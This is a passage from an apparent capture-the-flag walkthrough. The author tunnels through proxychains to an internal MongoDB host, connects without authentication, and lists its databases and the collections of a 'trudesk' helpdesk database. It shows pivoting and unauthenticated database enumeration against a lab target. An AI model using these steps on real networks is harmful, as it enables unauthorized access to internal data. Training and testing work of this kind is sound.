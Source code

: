     
    
    oxdf@hacky$ proxychains curl 172.17.0.4:27017
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.4:27017  ...  OK
    It looks like you are trying to access MongoDB over HTTP on the native driver port.
    

I’ll connect using `mongo`, and it allows access without auth:

    
    
    oxdf@hacky$ proxychains mongo 172.17.0.4
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    MongoDB shell version v3.6.8
    connecting to: mongodb://172.17.0.4:27017/test
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.4:27017  ...  OK
    Implicit session: session { "id" : UUID("f87fa546-0593-42c5-b3a5-e6d1dff06a7f") }
    MongoDB server version: 5.0.6
    WARNING: shell and server versions do not match
    Server has startup warnings: 
    {"t":{"$date":"2022-11-28T13:57:33.732+00:00"},"s":"I",  "c":"STORAGE",  "id":22297,   "ctx":"initandlisten","msg":"Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem","tags":["startupWarnings"]}
    {"t":{"$date":"2022-11-28T13:57:36.570+00:00"},"s":"W",  "c":"CONTROL",  "id":22120,   "ctx":"initandlisten","msg":"Access control is not enabled for the database. Read and write access to data and configuration is unrestricted","tags":["startupWarnings"]}
    > 
    

There are four DBs (though only `trudesk` isn’t a [default
one](https://www.mysoftkey.com/mongodb/3-default-database-in-mongodb/)):

    
    
    > show dbs
    admin    0.000GB
    config   0.000GB
    local    0.000GB
    trudesk  0.001GB
    

There’s a bunch of collections in the `trudesk` database:

    
    
    > use trudesk
    switched to db trudesk
    > show collections
    accounts
    counters
    departments
    groups
    messages
    notifications
    priorities
    role_order
    roles
    sessions
    settings
    tags
    teams
    templates
    tickets
    tickettypes
    